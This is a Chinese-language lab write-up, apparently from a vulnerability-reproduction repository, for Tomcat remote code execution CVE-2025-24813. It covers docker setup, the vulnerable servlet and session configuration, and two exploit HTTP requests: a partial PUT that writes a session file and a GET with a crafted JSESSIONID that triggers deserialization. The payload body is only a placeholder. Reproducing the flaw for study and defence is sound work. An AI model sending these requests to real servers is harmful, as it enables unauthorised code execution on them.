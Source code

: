 # Tomcat 远程代码执行漏洞（CVE-2025-24813）

Tomcat版本：9.0.97

## 环境搭建

```
docker compose build
docker compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- https://forum.butian.net/article/674

由于Tomcat配置了可写（readonly=false）与文件存储会话，且他们默认存储的路径都是$CATALINA_BASE/work/Catalina/localhost/ROOT
，导致我们可以往服务器写文件，并且通过指定JSESSIONID对我们写的文件触发反序列化。

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```
不完整PUT请求上传时，文件路径中的分隔符/会被转换为.并临时存储在$CATALINA_BASE/work/Catalina/localhost/ROOT

```
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```
开启文件存储会话

## 漏洞复现

通过Content-Range请求头构成不完整PUT请求，发送以下数据包使tomcat在临时目录写入文件.deserialize.session：

```
PUT /deserialize/session HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1000
Content-Range: bytes 0-1000/1200

反序列化内容
```


发送以下数据包触发反序列化
```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.deserialize
```


如下：

![](01.jpg)
